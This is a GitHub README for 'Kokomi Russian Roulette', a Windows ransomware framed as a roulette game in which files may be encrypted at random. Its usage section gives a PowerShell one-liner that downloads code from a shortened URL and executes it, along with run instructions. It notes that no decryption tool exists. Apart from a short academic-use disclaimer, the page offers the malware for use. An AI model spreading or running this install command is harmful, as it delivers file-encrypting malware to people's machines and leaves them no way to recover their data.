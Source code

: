 # Kokomi Russian Roulette
<p align="center">
<img src="resources/header.png" alt="drawing" width="500"/><br>
</p>

## What is?
It is a simple ransomware, with the idea of being a game inspired by the classic Russian roulette. 6 cabins, 1 chance to be encrypted, would you dare to play?
## Warning
This software is licensed under GPL3. But under no circumstances should it be used for evil. Its purpose is purely academic for the study of malware development. I disclaim any responsibility for misuse of this software.
## Usage
**This script only works in Windows OS, please only perform tests on your own virtual machine.**<br>
<br>
- One line with powershell
```powershell
irm cutt.ly/KRR | iex
```
- Normal Usage
```powershell
$ .\kokomi-russian-rulette.exe
```
- Dev<br>
  I recommend using a python virtual enviroment
```console
#Install dependecies
$ source env/Scripts/activate
$ pip install -r requirements.txt
$ python krr-fernet.py
```
## Decrypt files
The decryption program is not yet created, but is in process.<br>
KRR creates a random key for each run, this is stored in the $env:temp directory or also known as %temp%. The key is saved as a ``sngmy.png`` file.

## To do list
- [ ] Create decrypter program
- [ ] Optimize execution times
- [ ] Create port for C++ or C
## Inspiration:
- This kokomiware was inspired in [NaGa](https://github.com/ic4rta/NaGa)
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi) (One of my favorite characters from Genshin Impact)
